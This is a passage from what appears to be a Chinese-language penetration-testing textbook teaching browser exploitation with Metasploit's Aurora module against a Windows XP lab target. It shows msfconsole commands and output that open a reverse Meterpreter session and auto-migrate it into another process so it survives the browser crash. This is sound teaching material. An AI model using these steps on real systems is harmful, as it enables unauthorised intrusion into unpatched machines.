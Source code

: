 我们选择的有效载荷的高级设置之一是`AutoRunScript` ❶。当设置此参数时，它将允许我们在会话打开时自动运行 Meterpreter 脚本。

我们可以设置该参数，使得每当 Meterpreter 会话开启时，自动运行*migrate*脚本。这样，当浏览器崩溃时，只要*migrate*脚本完成，我们的会话就能避免崩溃的影响。此外，通过自动运行脚本，我们可以在用户访问恶意页面时随时迁移，而不管你是否在关注 Msfconsole，当会话进入时，如示例 10-8 所示。

示例 10-8. 设置`AutoRunScript`参数

```
msf  exploit(ms10_002_aurora) > **set AutoRunScript migrate -f**❶
AutoRunScript => migrate -f
msf  exploit(ms10_002_aurora) > **exploit**
[*] Exploit running as background job.

[*] Started reverse handler on 192.168.20.9:4444
[*] Using URL: http://192.168.20.9:80/aurora
[*] Server started.
```

要设置高级参数，请使用语法`set <`*`parameter to set`*`> <`*`value`*`>`（与设置常规选项相同）。例如，在示例 10-8 中，我们告诉*migrate*脚本通过`-f`标志 ❶生成一个新进程并迁移到该进程中，然后我们再次启动恶意服务器。

现在，再次从 Windows XP 目标系统浏览到恶意页面（见示例 10-9）。

示例 10-9. 自动迁移

```
msf  exploit(ms10_002_aurora) > [*] 192.168.20.10       ms10_002_aurora - Sending Internet Explorer "Aurora" Memory Corruption
[*] Sending stage (752128 bytes) to 192.168.20.10
[*] Meterpreter session 2 opened (192.168.20.9:4444 -> 192.168.20.10:1422) at 2015-05-05 20:26:15 -0400
[*] Session ID 2 (192.168.20.9:4444 -> 192.168.20.10:1422) processing AutoRunScript 'migrate -f' ❶
[*] Current server process: iexplore.exe (3476)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 484
[+] Successfully migrated to process ❷
```

这次我们得到了一个会话，表示`AutoRunScript`参数已自动处理 ❶。*migrate*脚本生成了一个*notepad.exe*进程，并迁移到了该进程中 ❷。当 Internet Explorer 崩溃时，我们的会话仍然保持活跃。

尽管在使用浏览器漏洞时自动迁移是一个好主意，但迁移的过程仍然需要几秒钟——这几秒钟内，用户可能会关闭浏览器并结束我们的会话。幸运的是，下面显示的高级 Meterpreter 选项`PrependMigrate`将更快地进行迁移，甚至在有效负载运行之前。

```
Name           : PrependMigrate
Current Setting: false
Description    : Spawns and runs shellcode in new process
```

你可以将此选项设置为`true`，作为我们之前使用的`AutoRunScript`的替代方案。

这只是浏览器漏洞利用的一个例子。Metasploit 还有其他模块用于利用 Internet Explorer 以及其他流行网页浏览器中的漏洞。随着更多组织加固了外部安全防护，浏览器漏洞利用已经成为许多渗透测试和攻击中的突破口。

### 注意

Aurora 漏洞在 2010 年已被修复，但用户和组织在保持浏览器更新方面做得不好，因此这个漏洞利用至今仍能找到目标。此外，尽管新型操作系统远程漏洞较为罕见，但像 Internet Explorer 这样的大型浏览器常常成为新型客户端攻击的受害者。使用如第四章所述的 Msfupdate 获取最新的模块，这些模块可能针对的新漏洞有些甚至在模块发布时，供应商还未修复。请注意，运行 Msfupdate 可能会影响 Metasploit 的工作，这可能使你在阅读本书时遇到困难。因此，建议你在读完整本书后再更新 Metasploit。

